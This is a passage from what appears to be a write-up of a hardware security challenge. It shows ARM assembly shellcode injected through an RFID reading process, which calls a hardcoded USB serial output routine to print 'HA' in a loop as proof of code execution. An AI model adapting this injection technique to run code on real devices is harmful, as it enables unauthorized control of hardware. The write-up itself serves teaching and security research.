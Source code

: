 \begin{lstlisting}[language={[x86masm]Assembler}]
.section .text
.align 2
.syntax unified

adr r7, putchar
ldrh r7, [r7]

adr r6, hacked

looper:
  ldrb r0, [r6]
  blx r7
  ldrb r0, [r6, #1]
  blx r7

b looper

; usb_serial_putchar function
putchar:
.word 0x3dad

hacked:
.ascii "HACKED\n"
\end{lstlisting}

This will print ``HA'' over and over until the watchdog timer resets.
We ran into many issues getting more code to execute as we believe it was being cut off during the RFID reading process. Hence, HA instead of HACKED.
\noindent See the Bounce challenge directory for the Makefile.
